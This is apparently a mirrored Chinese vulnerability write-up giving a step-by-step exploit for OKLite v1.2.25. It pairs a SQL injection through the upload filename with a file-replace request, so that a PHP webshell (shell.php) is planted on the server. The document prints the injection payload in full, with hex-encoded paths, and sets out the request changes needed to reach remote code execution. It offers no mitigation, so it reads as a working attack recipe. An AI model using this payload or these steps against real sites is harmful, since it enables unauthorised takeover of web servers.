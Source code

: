 # OKLite v1.2.25 SQL注入导致getshell(前台)

> 原文：[https://www.zhihuifly.com/t/topic/3055](https://www.zhihuifly.com/t/topic/3055)

# OKLite v1.2.25 SQL注入导致getshell(前台)

## 一、漏洞简介

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

## 二、漏洞影响

OKLite v1.2.25 版本

## 三、复现过程

地址：http://www.0-sec.org/index.php?id=message

在线留言处上传一个图片并抓包，把文件名修改为：

```
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc 
```

![image](img/e6fe55b0674306fd80c5addd150c1711.png)

上传成功之后会返回图片的id和保存的路径：

![image](img/59da562690a651c534a6343544dcfda1.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id + 1。

图片的内容改为恶意的php代码：

![image](img/6d2640e5c0b685957d22c308062005b0.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![image](img/a80daab1e0b3bbabd6b7605a063020c7.png)